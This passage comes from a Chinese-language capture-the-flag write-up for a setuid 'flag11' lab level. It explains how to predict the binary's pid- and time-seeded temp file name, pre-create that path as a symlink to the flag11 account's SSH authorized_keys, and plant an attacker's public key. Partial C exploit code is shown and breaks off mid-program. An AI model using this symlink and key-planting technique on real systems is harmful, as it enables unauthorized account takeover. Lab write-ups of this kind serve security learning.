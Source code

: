 结果却发现提示没有权限，百思不得其解。使用IDA逆向`flag11`程序后发现，在执行`system()`函数前先将`effective user id`又设置了回去：

![](level11_1.png)

这与题目中给出的源码并不相同:joy:，本以为已到了绝路。后来通过查找[资料](https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9)发现，其实题目程序中还有另外可以利用的地方：写文件。在进行写文件的时候，利用的仍然是`effective user id`，可以以flag11的权限来写文件，这也是题目中费尽心机要搞一个随机文件名的目的。

题目源码中生成随机文件名一是体现在`pid`上，但一般来说新建一个进程，它的`pid`是会比上一个进程的`pid`自增1的，所以也是可预测的，即为管道左面的程序`pid+1`；另一个是体现在随机数上，但这里用到的是伪随机，通过`srandom()`设置的种子只要相同，之后产生的随机数序列都是一致的，而这里用到的`time()`函数单位是**秒**，因此也是存在利用的空间的。管道左右两个连续执行的小程序，其`time()`的返回值是大概率相同的。

注意到flag11用户目录下存在`.ssh`文件夹，我们可以在此文件夹下写入我们的公钥到文件`authorized_keys`中，就可以直接ssh登录至flag11账户了。

我们可以编写一程序，创建一个和flag11程序要创建的临时文件同名的文件，将它符号链接到`/home/flag11/.ssh/authorized_keys`，然后输出内容构造为公钥文件内容即可。

代码如下：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>


int getrand(char **path, int pid, int time)
{
  char *tmp;
  int fd =  0;

  srandom(time);

  tmp = getenv("TEMP");
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));


  return fd;
}


#define CL "Content-Length: "

int main(int argc, char **argv)
{
  char line[256];
  char buf[2048] = "ssh-rsa your public key here...";

  int pid;
  int fd;
  char *path;

  pid = getpid()+1;
  getrand(&path, pid, time(NULL));
  symlink("/home/flag11/.ssh/authorized_keys",path);
```